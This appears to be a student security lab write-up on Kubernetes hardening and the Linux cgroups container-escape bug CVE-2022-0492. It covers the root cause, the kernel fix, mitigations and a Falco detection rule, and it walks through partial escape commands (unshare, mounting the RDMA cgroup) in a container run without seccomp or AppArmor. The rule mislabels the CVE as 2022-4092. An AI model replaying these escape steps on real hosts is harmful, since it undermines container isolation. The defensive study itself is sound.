

Other resource usage data to be monitored including:

- Compare usage with similar k8s resources. For example, compare across different replicas of the same pod.

- Apply the previous query to other system resources that can be monitored as memory, GPU, or network traffic.

- Compare CPU usage with container resource limits. In this case, no limits have been established so the query will be empty.

Inspirations for a cluster to be more secure from cryptominer attack:

- Set limits to containers
- Non-privileged
- Use kubernetes network policies to define a *least-privilege* network access

#### Use Falco to detect CVE-2022-0492

See the next session: Analysis of CVW-2022-0492.

#### References

1. Falco official website: https://falco.org

2. Learn Kubernetes Security by Kaizhe Huang and Pranjal Jumde: https://www.oreilly.com/library/view/learn-kubernetes-security/9781839216503/
3. Compare Falco with other anormalous behavior detection tool: https://sysdig.com/blog/falco-vs-auditd-hids/

### Session3 - Analysis of CVE-2022-0492

#### The Information of CVE-2022-0492

| **Name**         | CVE-2022-0492                                                |
| ---------------- | ------------------------------------------------------------ |
| **Source**       | [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0492) (at [NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-0492); [CERT](https://www.kb.cert.org/vuls/byid?searchview=&query=CVE-2022-0492), [LWN](https://lwn.net/Search/DoSearch?words=CVE-2022-0492), [oss-sec](https://marc.info/?l=oss-security&s=CVE-2022-0492), [fulldisc](https://marc.info/?l=full-disclosure&s=CVE-2022-0492), [bugtraq](https://marc.info/?l=bugtraq&s=CVE-2022-0492), [EDB](https://www.exploit-db.com/search/?action=search&cve=2022-0492), [Metasploit](https://www.rapid7.com/db/search?q=CVE-2022-0492), [Red Hat](https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2022-0492), [Ubuntu](https://people.canonical.com/~ubuntu-security/cve/CVE-2022-0492), [Gentoo](https://bugs.gentoo.org/show_bug.cgi?id=CVE-2022-0492), SUSE [bugzilla](https://bugzilla.suse.com/show_bug.cgi?id=CVE-2022-0492)/[CVE](https://www.suse.com/security/cve/CVE-2022-0492/), [Mageia](https://advisories.mageia.org/CVE-2022-0492.html), GitHub [code](https://github.com/search?type=Code&q="CVE-2022-0492")/[issues](https://github.com/search?type=Issues&q="CVE-2022-0492"), [web search](https://duckduckgo.com/html?q="CVE-2022-0492"), [more](https://oss-security.openwall.org/wiki/vendors)) |
| **References**   | [DLA-2940-1](https://security-tracker.debian.org/tracker/DLA-2940-1), [DLA-2941-1](https://security-tracker.debian.org/tracker/DLA-2941-1), [DSA-5095-1](https://security-tracker.debian.org/tracker/DSA-5095-1), [DSA-5096-1](https://security-tracker.debian.org/tracker/DSA-5096-1) |
| **NVD severity** | medium                                                       |

A vulnerability[[1]][https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0492] was found in the Linux kernel’s `cgroup_release_agent_write` in the `kernel/cgroup/cgroup-v1.c` function. This flaw, under certain circumstances, allows the use of the cgroups v1 release_agent feature to escalate privileges and bypass the namespace isolation unexpectedly .

The vulnerability was disclosed by Yiqi Sun (Nebula Lab) and Kevin Wang (Huawei).

#### Root Cause Analysis - CVE-2022-0492

One of the features of cgroups v1 is the `release_agent` file. It allows administrators to configure a "release agent" program that would run upon the termination of a process in the cgroup. This is done by writing the desired release agent path to the `release_agent` file, as demonstrated below:

```bash
$ echo /bin/my-release-agent > /sys/fs/cgroup/memory/release_agent
```

The release_agent file is only visible in the root cgroup directory and affects all its child cgroups. Each child group can be configured to either trigger or not trigger the release agent (upon the termination of one of its processes) by writing to the `notify_on_release` file. The following command enables the `notify_on_release` functionality for the a_child_cgroup cgroup:

```bash
$ echo 1 > /sys/fs/cgroup/[a_child_cgroup]/notify_on_release
```

When a process dies, the kernel checks whether its cgroups had `notify_on_release` enabled, and if so, spawns the configured `release_agent` binary. The release agent runs with the highest possible permissions: a root process with all capabilities in the initial namespaces. As such, configuring the release agent is considered a privileged operation, as it allows one to decide which binary will run with full root permissions.

CVE-2022-0492 stems from a missing verification. Linux simply didn't check that the process setting the release_agent file has administrative privileges (i.e. the `CAP_SYS_ADMIN` capability).

#### Mitigation

Some platforms[[2]][https://access.redhat.com/security/cve/cve-2022-0492][[3]][https://security-tracker.debian.org/tracker/CVE-2022-0492] are still vulnerable now (e.g. debian version 4.9.228-1). The mitigation for this issue is either not available or the currently available options don't meet the Red Hat Product Security criteria comprising ease of use and deployment, applicability to widespread installation base, or stability.

- The Linux kernel source `kernel/cgroup/cgroup-v1.c`  [[6]][https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=24f6008564183aa120d07c03d9289519c2fe02af] was fixed at 2022-02-01. 

```bash
diff --git a/kernel/cgroup/cgroup-v1.c b/kernel/cgroup/cgroup-v1.c
index 41e0837a5a0bd..0e877dbcfeea9 100644
--- a/kernel/cgroup/cgroup-v1.c
+++ b/kernel/cgroup/cgroup-v1.c
@@ -549,6 +549,14 @@ static ssize_t cgroup_release_agent_write(struct kernfs_open_file *of,
 
 	BUILD_BUG_ON(sizeof(cgrp->root->release_agent_path) < PATH_MAX);
 
+	/*
+	 * Release agent gets called with all capabilities,
+	 * require capabilities to set release agent.
+	 */
+	if ((of->file->f_cred->user_ns != &init_user_ns) ||
+	    !capable(CAP_SYS_ADMIN))
+		return -EPERM;
+
 	cgrp = cgroup_kn_lock_live(of->kn, false);
 	if (!cgrp)
 		return -ENODEV;
@@ -954,6 +962,12 @@ int cgroup1_parse_param(struct fs_context *fc, struct fs_parameter *param)
 		/* Specifying two release agents is forbidden */
 		if (ctx->release_agent)
 			return invalfc(fc, "release_agent respecified");
+		/*
+		 * Release agent gets called with all capabilities,
+		 * require capabilities to set release agent.
+		 */
+		if ((fc->user_ns != &init_user_ns) || !capable(CAP_SYS_ADMIN))
+			return invalfc(fc, "Setting release_agent not allowed");
 		ctx->release_agent = param->string;
 		param->string = NULL;
 		break;
```

To protect against malicious containers in scenarios where upgrading isn't possible, users can enable one of the following mitigations:

1. Enable AppArmor or SELinux. See this [Kubernetes guide](https://kubernetes.io/docs/tutorials/security/apparmor/) for more information.
2. Enable Seccomp. See this [Kubernetes guide](https://kubernetes.io/docs/tutorials/security/seccomp/) for more information.

- Run and Response: Event Detection[[11]][https://sysdig.com/blog/detecting-mitigating-cve-2022-0492-sysdig/]

Using a **Runtime detection** engine tool like [Falco](https://falco.org/), you can detect attacks that occur in runtime when your containers are already in production. Falco, a CNCF incubating project, can help detect anomalous activities in cloud-native environments. The following Falco rule can help you detect if you are impacted by **CVE-2022-0492**.

```bash
- rule: Linux Cgroup Container Escape Vulnerability (CVE-2022-4092)
  desc: "This rule detects an attempt to exploit a container escape vulnerability in the Linux Kernel."
  condition: container.id != "" and proc.name = "unshare" and spawned_process and evt.args contains "mount" and evt.args contains "-o rdma" and evt.args contains "/release_agent"
  output: "Detect Linux Cgroup Container Escape Vulnerability (CVE-2022-4092) (user=%user.loginname uid=%user.loginuid command=%proc.cmdline args=%proc.args)"
  priority: CRITICAL
  tags: [process, mitre_privilege_escalation]
```

From the escape test below, to achieve the escape goal some of steps are necessary so we can set those features like arguments and process name in the condition via Falco to detect the event.

The condition is as below:

```bash
container.id != "" # Avoid unknown container
proc.name = "unshare" # Detect the unshare() syscall
spawned_process #  Detect when process dies, the kernel spawns the configured `release_agent` binary.
evt.args contains "mount" # Detect whether the container mounts a cgroupfs
evt.args contains "-o rdma" # Detect whether the container mounts the root RDMA cgroup, so it will have the 'release_agent' binary with root privilege
evt.args contains "/release_agent" # Detect whether the container gets the '/release_agent' and whether kernel runs the 'release_agent' binary after the process dies.
```


#### Escape methods

We refer the document [[7]][https://github.com/puckiestyle/CVE-2022-0492] from Github and [[9]][https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/] and follow the “attack” procedures as below.

##### 1 - User namespace Escape

Mounting a **cgroupfs** requires the **CAP_SYS_ADMIN** capability in the user namespace hosting the current cgroup namespace. By default, containers run without **CAP_SYS_ADMIM**, and thus cannot mount **cgroupfs** in the initial user namespace. But through the **unshare()** syscall, containers can create new user and cgroup namespaces where they possess the CAP_SYS_ADMIN capability and can mount a cgroupfs.

- Write Dockerfile, build and run image

```bash
# Dockerfile
FROM ubuntu:15.10
# RUN apt-get install libcap2-bin
RUN apt update && apt upgrade -y && apt-get install -y libcap2-bin
```

```bash
# Run the image with no Seccomp and Apparmor protection
sudo docker run --rm -it --security-opt seccomp=unconfined --security-opt apparmor=unconfined leo/ubuntu:v2
```

- Run commands within the container

```bash
set 'cat /proc/$$/status | grep "CapEff:"'; capsh --decode=$2 | grep sys_admin
unshare -UrmC bash
```

- <!--Problems-->: 

  1. Failed to run command `unshare` in image `ubuntu:15.10` because there was no argument `-C`.

     Sovled: change the base image from `ubuntu:15.10` to `ubuntu:18.04`

  2. Failed to run command while building image `apt-get install libcap2-bin`.

     Sovled: using command `RUN apt update && apt upgrade && apt-get install libcap2-bin`

```bash
unshare -UrmC bash
```

##### 2 - Mounting the root RDMA cgroup



> The container mounts the **memory** cgroup in the new user and cgroup namespaces

 In the screenshot above, the container successfully mounted a memory cgroup, but the `release_agent` file isn’t included in the mounted directory.

As mentioned earlier, the **release_agent** file is only visible in the root cgroup. One caveat of mounting a cgroupfs in a cgroup namespace is that you mount the cgroup you belong to, not the root cgroup.

```bash
unshare -UrmC bash
mount -t cgroup -o rdma cgroup /mnt
ls -al /mnt/ | grep release_agent
```



<!--Problem-->

- The root RDMA does not have the file `release_agent`

  - I read the document CGROUPS[[8]][https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt], and found that the default value of `notify_on_release` in the root cgroup at system boot is disabled (0) so the default value of a cgroup hierarchy’s realease_agent path is empty. 

    ```bash
    echo 1 > /sys/fs/cgroup/rdma/notify_on_release
    ```

    

  - However after changing the value of `notify_on_release` there was still no file. Then I checked the `proc/self/cgroup` and found that the container run in the child cgroup of the root cgroup like /docker/<id> which means my container could not mount the root cgroup.

    

  After trying many methods we found that each subsystem is mounted at `/sys/fs/cgroup/<subsystem>` in the cgroup v2 architecture. Any subsequent directories under the root cgroup denote a new child cgroup. So the container could mount the root cgroup in the new user and cgroup namespaces in our cgroup v2 situation. 

  We copied the procedures from the document[[9]][https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/] below.

##### 3 - CAP_SYS_ADMIN Escape

In the cgroup v1 architecture if we repeat the same commands for the RDMA group, the `release_agent` file would be visible.

```bash
unshare -UrmC bash
mount -t cgroup -o rdma cgroup /mnt
ls -al /mnt/ | grep release_agent
```


> This figure and below are cited from document[9]

To exploit the issue, we need to write a malicious release agent to the `release_agent` file. As seen in Figure 6 above, that file is owned by root, so **only root container processes may set the release agent**. 


The final step of the escape is to invoke the configured release_agent, which doesn't require any privileges. Since this step is always doable, it has no implications on whether an environment is vulnerable to CVE-2022-0492, and so we decided to leave it out. You can still see how a full exploit looks in the screenshot below.


#### Conclusion

CVE-2022-0492 marks a logical bug in control groups(cgroups), a Linux feature that is a fundamental building blocks of containers. 

As we tested above, the privilege escalation vulnerabilities in the Linux kernel can only be exploited for container escape when the container is allowed to create a new user namespacethe. Containers running with `AppArmor`, `SELinux` or `Seccomp` are protected which means the default security hardening in most container environments are enough to prevent container escape.

Also it’s best to upgrade the hosts to a fixed kernel version.

#### References

[1] CVE-2022-0492

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0492 

[2]Red Hat CVE-2022-0492

https://access.redhat.com/security/cve/cve-2022-0492

[3] debian CVE-2022-0492

https://security-tracker.debian.org/tracker/CVE-2022-0492

[4] NVD - CVE-2022-0492 Details

https://nvd.nist.gov/vuln/detail/CVE-2022-0492

[5] Red Hat Bugzilla – Bug 2051505 - CVE-2022-0492 kernel: cgroups v1 release_agent feature may allow privilege escalation 

https://bugzilla.redhat.com/show_bug.cgi?id=2051505)

[6] Linux Kernel - cgroup-v1: Require capabilities to set release_agent

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=24f6008564183aa120d07c03d9289519c2fe02af

[7] CVE-2022-0492-Checker

https://github.com/puckiestyle/CVE-2022-0492

[8] CGROUPS documentation

https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt

[9] New Linux Vulnerability CVE-2022-0492

https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/


### Conclusion

